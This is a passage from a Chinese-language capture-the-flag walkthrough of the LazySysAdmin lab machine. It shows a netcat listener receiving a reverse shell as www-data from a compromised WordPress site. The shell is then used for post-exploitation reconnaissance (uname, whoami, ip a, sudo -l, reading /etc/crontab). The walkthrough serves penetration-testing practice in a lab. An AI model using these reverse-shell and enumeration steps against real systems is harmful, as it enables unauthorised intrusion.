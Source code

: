   ```
     
     ?>
     ```

  3. 开启监听,等待反弹shell连接

  4. ```shell
     └─$ nc -nvlp 1234                                                                          
     listening on [any] 1234 ...
     connect to [192.168.2.2] from (UNKNOWN) [192.168.2.12] 44476
     bash: cannot set terminal process group (1175): Inappropriate ioctl for device
     bash: no job control in this shell
     www-data@LazySysAdmin:/var/www/html/wordpress/wp-admin$ uname -a
     uname -a
     Linux LazySysAdmin 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 i686 i686 GNU/Linux
     www-data@LazySysAdmin:/var/www/html/wordpress/wp-admin$ whoami
     whoami
     www-data
     www-data@LazySysAdmin:/var/www/html/wordpress/wp-admin$ ip a
     ip a
     1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
         link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
         inet 127.0.0.1/8 scope host lo
            valid_lft forever preferred_lft forever
         inet6 ::1/128 scope host 
            valid_lft forever preferred_lft forever
     2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 1000
         link/ether 00:0c:29:03:a2:ff brd ff:ff:ff:ff:ff:ff
         inet 192.168.2.12/24 brd 192.168.2.255 scope global eth0
            valid_lft forever preferred_lft forever
         inet6 fe80::20c:29ff:fe03:a2ff/64 scope link 
            valid_lft forever preferred_lft forever
     www-data@LazySysAdmin:/var/www/html/wordpress/wp-admin$ sudo -l
     sudo -l
     sudo: no tty present and no askpass program specified
     www-data@LazySysAdmin:/var/www/html/wordpress/wp-admin$ cat /etc/crontab
     cat /etc/crontab
     # /etc/crontab: system-wide crontab
     # Unlike any other crontab you don't have to run the `crontab'
     # command to install the new version when you edit this file
     # and files in /etc/cron.d. These files also have username fields,
     # that none of the other crontabs do.
     
     SHELL=/bin/sh
     PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
     
     # m h dom mon dow user  command
     17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
     25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
     47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
     52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
     #
     www-data@LazySysAdmin:/var/www/html/wordpress/wp-admin$ 
     ```

## 获得初始shell

  ```